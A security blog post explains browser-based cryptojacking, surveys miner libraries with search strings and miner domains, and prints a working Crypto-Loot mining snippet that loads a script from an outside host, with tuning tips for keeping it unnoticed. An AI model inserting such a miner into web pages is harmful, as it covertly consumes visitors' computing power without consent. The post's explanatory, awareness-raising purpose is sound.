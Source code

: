 ```yaml
---
slug: cryptojacking-malware/
title: Cryptojacking, a Real Malware?
date: 2019-08-25
category: opinions
subtitle: Understanding cryptojacking "malware"
tags: social-engineering, hacking, malware
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330840/blog/cryptojacking-malware/cover_qypfzt.webp
alt: Photo by Alberto Duo on Unsplash
description: Here we'll explain the different types of cryptojacking and give an example. We'll also discuss its legal use and the advantages of implementing it in an app.
keywords: Blockchain, Cryptocurrencies, Cryptojacking, Mining, Malware, Javascript, Ethical Hacking, Pentesting
author: Diego Alvarez
writer: diegoaa
name: Diego Alvarez
about1: Systems and Telecommunications Engineer student
about2: '"Blessed is the man who expects nothing, because he will never be disappointed." Alexander Pope'
source: https://unsplash.com/photos/e4rcg33x4fA
---
```


Before we begin, we need a brief definition of blockchain. It is simply
a unique, consensual, and distributed registry on the network that
allows storage of information that cannot be modified, lost or deleted.
It is used in the health sector, smart contracts, intellectual property
management, and cryptocurrencies, the last being its most common use.

In the field of cryptocurrencies, a blockchain stores all transactions
made with a cryptocurrency. The security and integrity of these systems
are maintained by nodes, which are computers connected to the blockchain
network competing with each other to verify transactions. This process
is known as mining and is carried out by providing processing power with
either `CPUs`, `GPUs`, or by using specialized hardware for this type of
task.

Usually nodes associate with each other and create groups that working
together help to validate a group of transactions. When these
transactions are validated, each node is rewarded with the proportion of
the power contributed.

## Concept

When mining cryptocurrency, take into account that in these processes,
the percentage of `GPU` or `CPU` usage increases, as well as the use of
electricity.

Now, what if I tell you that others can perform such processing power
for you, and even better, without having to divide the profits between
them? It sounds pretty good, and it’s simple to implement with two
variations:

- The first is carried out by infecting a victim’s machine with
  malware. Usually, this is done by social engineering. We can make a
  victim, without their knowledge, download malware that executes the
  mining process in the background.

- The other variation is in-browser mining. This executes code in the
  user’s browser when the user is accessing a particular site. In this
  case, `JavaScript` is used to execute such scripts.

## Discussion

On one hand, some people prefer that their `CPU` be used `100%` of the
time, without having to deal with ads and pop-ups on every new page.

On the other hand, antivirus companies periodically update their
definition of malware and include web miners as a potential threat to a
user’s system.

According to reports by COINTELEGRAPH[<sup>\[1\]</sup>](#r1%20), Monero
(the currency most affected by excessive mining) plans to reinforce its
algorithm by requiring miners to dedicate over two gigabytes of `RAM` to
the process, which could make cryptojacking attempts harder to hide.

How the scripts are used defines whether the usage is legal or not.
There are cases where attackers inject code into websites through `XSS`,
generating profits, but do not have the consent of the website
administrator.

As noted above, with social engineering techniques, the attacker could
make victims download malicious programs to perform mining without
consent.

## Tools

There are many tools that can be used to perform in-browser mining.
[Coinhive](https://krebsonsecurity.com/2018/03/who-and-what-is-coinhive/)
had been one of the most used, but since March 2019 it has stopped
working.

However, there are other tools that are quite similar. Table 1 below, a
scan made with [publicWWW](https://publicwww.com/), shows the
approximate number of websites using these tools.

<div class="tc">

**Table 1. Quantity of websites per library[<sup>\[2\]</sup>](#2)**

</div>

| Website                    | Results        | Query Parameter                                                                                                                                                                 |
| -------------------------- | -------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| <p> Coinhive          </p> | <p> 30611 </p> | <p> "coinhive.min.js"                                                                                                                                                      </p> |
| <p> JSEcoin           </p> | <p> 1131  </p> | <p> "load.jsecoin.com"                                                                                                                                                     </p> |
| <p> Crypto-Loot       </p> | <p> 695   </p> | <p> "CryptoLoot.Anonymous"                                                                                                                                                 </p> |
| <p> Minr              </p> | <p> 324   </p> | <p> "minr.pw", "st.kjli.fi", "abc.pema.cl", "metrika.ron.si", "cdn.rove.cl", "host.d-ns.ga", "static.hk.rs", "hallaert.online", "cnt.statistic.date", "cdn.static-cnt.bid" </p> |
| <p> CoinImp           </p> | <p> 317   </p> | <p> "www.coinimp.com/scripts/min.js"                                                                                                                                       </p> |
| <p> ProjectPoi (PPoi) </p> | <p> 116   </p> | <p> "projectpoi.min"                                                                                                                                                       </p> |
| <p> AFMiner           </p> | <p> 46    </p> | <p> "afminer.com/code/miner.php"                                                                                                                                           </p> |
| <p> Papoto            </p> | <p> 42    </p> | <p> "papoto.com/lib/papoto.js"                                                                                                                                             </p> |

In the following example, a test is shown using [Crypto
Loot](http://Crypto-Loot), a library that is replacing the previous
Coinhive. It is very easy to implement in any application by inserting
the following code.

**In-Browser mining script.**

``` javascript
<script src="//statdynamic.com/lib/crypta.js"></script>
<script>
  var miner = new CRLT.Anonymous('15837bc7758859e913c5ccc2d292a9f1e54775389d5',
    { threads:4,throttle:0.2, coin: "xmr" }
  );
  miner.start();
</script>
```

When a user visits the application, the processing level quickly
increases. The recommended thread value to make the script unnoticed is
between 2-4. And the throttle that defines the maximum `CPU` usage is at
0.2 (80%), the full speed being 0.0, and the least recommended.

<div class="imgblock">

![CPU Usage](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330839/blog/cryptojacking-malware/cpu_wkmpwo.webp)

<div class="title">

Figure 1. CPU Usage while visiting a website with In-Browser mining script.

</div>

Collected earnings and processing power can be seen on the
[dashboard](https://crypto-loot.org/dashboard/) of the person who
inserted the script.

## Conclusion

The use of services such as [Crypto Loot](http://Crypto-Loot) can be
legal. They are considered malware when used anonymously in user’s
systems. It is our responsibility to inform users about what is
happening and provide statistics to users on mined power.

In order for these mining methods to be legitimate and therefore, legal,
users must receive a notification about the execution of these scripts,
as well as the option to disable them and stop mining.

So far, there are few websites where the user is not actually informed
of the use of these scripts. Here is where antivirus companies disagree.
Some antivirus companies believe excessive `CPU` usage can cause
intentional damage, while others believe there is no intention to harm
an infected machine’s files; they just make the machine work a little
slower.

Without a doubt, no one wants their machine to work slower, but with
proper configuration of the scripts, you can achieve a website that
generates profits without having to show annoying ads to visitors and
without exceeding `CPU` usage.

## References

1. COINTELEGRAPH. [Monero Developers Consider Adopting New
    Proof-of-Work Algorithm in
    October.](https://cointelegraph.com/news/monero-developers-consider-adopting-new-proof-of-work-algorithm-in-october)

2. S. Eskandari, A. Leoutsarakos, T. Mursch and J. Clark (2018). [A
    first look at browser-based
    cryptojacking](https://sci-hub.tw/https://ieeexplore.ieee.org/abstract/document/8406561).
    *2018 IEEE European Symposium on Security and Privacy Workshops
    (EuroS\&PW)*, 63.
